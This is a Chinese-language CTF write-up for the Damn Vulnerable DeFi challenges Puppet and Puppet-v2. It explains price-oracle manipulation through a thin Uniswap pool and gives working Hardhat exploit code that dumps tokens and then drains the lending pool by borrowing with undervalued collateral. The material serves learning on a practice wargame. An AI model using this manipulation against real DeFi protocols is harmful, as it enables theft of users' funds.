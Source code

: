 # Damn Defi靶场刷题记录(8-9)

    author: Thomas_Xu

## 8 Puppet
这个题直接通过abi引用了一个已经编译了的Uniswap v1的合约，因此，我们可以假定这个Uniswap合约没有其他漏洞。
那就让我们把目光集中在`PuppetPool`合约
其实就一个`borrow()`函数，但在借款时，我们需要抵押两倍的资金在池里。这个题其实就是想要我们想办法让池在我们抵押不足的情况下贷款给我们。
这其实就涉及到uniswap的原理了，有关uniswap v1我推荐看[这篇文章](https://bbs.csdn.net/topics/606753811)
在了解了uniswap v1后，我们就应该知道，流动性对于一个uniswap池有多么重要，而题目中的这个池，其实并没有足够多的流动性来应对大规模的买进卖出。
> 因此我们只需要出售我们手中所有的token，就会导致市场崩盘，价格失衡。(token大幅度贬值)，那么我们手中的ETH将会非常值钱，这时候我们再调用borrow函数，由于token的贬值，我们可以通过抵押我们手中的ETH获得几乎全部的token。

* **Exploit**
```
it('Exploit', async function () {
        /** CODE YOUR EXPLOIT HERE */
        await this.token.connect(attacker).approve(this.uniswapExchange.address, ATTACKER_INITIAL_TOKEN_BALANCE);
        await this.uniswapExchange.connect(attacker).tokenToEthSwapInput(
            ATTACKER_INITIAL_TOKEN_BALANCE.sub(1),
            1,
            9999999999
        );
        // 先计算borrow所有的token需要多少的eth
        const amount = await this.lendingPool.calculateDepositRequired(POOL_INITIAL_TOKEN_BALANCE);
        await this.lendingPool.connect(attacker).borrow(POOL_INITIAL_TOKEN_BALANCE, {value:amount});
    });
```

## 9 Puppet-v2
相比于上一道题，这次使用的时Uniswap-v2的源码，而交易所借款需要抵押的eth从借款价格的2倍变为了3倍。
但其实再了解Uniswap-v2以及这次的交易所代码后，发现其实和上道题没有本质的区别。
我们任然可以利用池中流动性不足这一点，引起价格的波动，使token贬值，以达到我们以少数eth借到大量token的目的。

* **Exploit**
```
 it('Exploit', async function () {
        /** CODE YOUR EXPLOIT HERE */
        await this.token.connect(attacker).approve(this.uniswapRouter.address, ATTACKER_INITIAL_TOKEN_BALANCE);
        // 在交易所置换自己所有的token
        await this.uniswapRouter.connect(attacker).swapExactTokensForETH(
            ATTACKER_INITIAL_TOKEN_BALANCE,
            0,
            [this.token.address, this.uniswapRouter.WETH()],
            attacker.address,
            9999999999
        );
        
        console.log('Attacker`s balance:', (await ethers.provider.getBalance(attacker.address)).toString());
        //计算borrow所有token所需要的eth
        const amount = await this.lendingPool.calculateDepositOfWETHRequired(POOL_INITIAL_TOKEN_BALANCE);
        //先往钱包里存钱
        await this.weth.connect(attacker).deposit({value:amount});
        await this.weth.connect(attacker).approve(this.lendingPool.address, amount);
        await this.lendingPool.connect(attacker).borrow(POOL_INITIAL_TOKEN_BALANCE);
    });
```
